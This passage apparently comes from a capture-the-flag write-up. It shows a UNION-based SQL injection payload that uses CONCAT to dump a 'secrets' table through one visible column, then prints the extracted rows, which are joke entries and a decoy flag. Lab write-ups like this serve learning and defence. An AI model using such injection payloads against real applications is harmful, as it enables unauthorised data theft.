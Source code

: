 ```sql
UNION SELECT CONCAT(id, ":", description, ":", proof), 2, 3 FROM secrets
```

The `CONCAT()` here is to put our results into the first column as the other two column are hidden after the first five characters.

This query converts to `' UNION SELECT CONCAT(id, ":", description, ":", proof), 2, 3 FROM secrets -- ` as the input.

After parsing the output we get:

| id  | Description              | Proof                                                                                                               |
| --- | ------------------------ | ------------------------------------------------------------------------------------------------------------------- |
| 1   | Access codes for Area 51 | The access code is 1234                                                                                             |
| 2   | KFC Recipe               | The 10 spices are in the diary on page 658                                                                          |
| 3   | Advent of Code           | FLAG are such a good thing to find, but this is not it. I do really love that you are playing the game! Keep it up. |
| 4   | The door                 | Do you know where that one door leads? It leads to the basement!                                                    |
